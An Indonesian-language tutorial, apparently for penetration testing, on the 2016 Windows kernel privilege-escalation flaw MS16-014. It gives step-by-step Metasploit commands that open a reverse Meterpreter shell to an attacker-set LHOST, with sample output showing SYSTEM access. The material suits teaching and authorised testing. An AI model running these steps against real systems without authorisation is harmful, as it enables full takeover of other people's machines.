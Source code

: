 # MS16-014

## A. Apa itu MS16-014?

[MS16-014](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-014) adalah kerentanan Local Privilege Escalation (LPE) pada Windows Kernel, khususnya terkait dengan manajemen Windows Task Scheduler dan komponen internal `win32k.sys`.

Kerentanan ini memungkinkan pengguna lokal dengan hak terbatas untuk menjalankan kode arbitrer di level kernel, dan mendapatkan hak akses `SYSTEM`. Ini dilakukan dengan cara mengeksploitasi kesalahan dalam validasi objek kernel dan manipulasi struktur internal.

## B. Detail Teknis:
- CVE ID: `CVE-2016-0040`
- Buletin Microsoft: `MS16-014`
- Tanggal Rilis: `9 Februari 2016`
- Tipe: Local Privilege Escalation (LPE)
- Arsitektur: `x86` dan `x64`
- Platform: `Windows`

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `MS16-014`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-014#affected-software-and-vulnerability-severity-ratings](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-014#affected-software-and-vulnerability-severity-ratings)

## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Exploit MS16-014:

   ```
   msf6 > use exploit/windows/local/ms16_014_wmi_recv_notif
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set targets <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```

5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] OS Version: Windows 7 Service Pack 1
   [*] Reflectively injecting the exploit DLL and running it...
   [*] Launching msiexec to host the DLL...
   [+] Process 1276 launched.
   [*] Reflectively injecting the DLL into 1276...
   [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 20 opened (192.168.1.42:4444 -> 192.168.1.50:49179) at 2025-05-14 17:34:54 +0700

   meterpreter > 
   ```
   
   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```

